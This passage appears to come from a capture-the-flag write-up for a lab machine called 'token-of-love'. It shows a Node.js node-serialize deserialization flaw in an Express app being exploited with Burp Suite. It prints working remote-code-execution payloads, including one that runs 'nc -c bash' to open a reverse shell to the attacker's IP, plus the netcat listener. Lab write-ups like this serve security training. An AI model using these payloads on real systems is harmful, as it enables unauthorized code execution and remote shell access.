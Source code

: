 On the other hand, by observing the response headers we initially obtained with `whatweb` or through the browser's developer tools, we can see that the backend is an application using Express, a Node.js framework.  

![alt text](/assets/token-of-love/image-8.png)  

Additionally, there is a very subjective message on the website:  

```text
Serializa tu mensaje y envíalo con cariño.
```  

We use Burp Suite to capture the request when sending a message and forward it to the repeater.  

We modify the sent data with the following payload:

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('wget 192.168.1.116', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```

It sends a JSON with the `data` parameter, where another JSON appears to be embedded. In reality, this is a JavaScript object that gets deserialized on the server, allowing us to achieve RCE.  

![alt text](/assets/token-of-love/image-9.png)  

More information about this technique:  

- [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)  
- [https://hacktricks.boitatech.com.br/pentesting-web/deserialization#node-serialize](https://hacktricks.boitatech.com.br/pentesting-web/deserialization#node-serialize)  
- [https://www.exploit-db.com/exploits/45265](https://www.exploit-db.com/exploits/45265)  
- [https://www.exploit-db.com/exploits/49552](https://www.exploit-db.com/exploits/49552)  
- [https://www.exploit-db.com/exploits/50036](https://www.exploit-db.com/exploits/50036)  

We set up a reverse shell listener using Netcat on port 12345:  

```bash
nc -lvnp 12345
```  

Then, we send the following payload via Burp Suite:  

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('nc -c bash 192.168.1.116 12345', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```  

We successfully obtain a shell as the user `cupido`.

![alt text](/assets/token-of-love/image-10.png)

## Privilege Escalation  

We prepare the terminal for better usability. We see that the user `cupido` can execute `tee` as the user `eros` without requiring a password.  
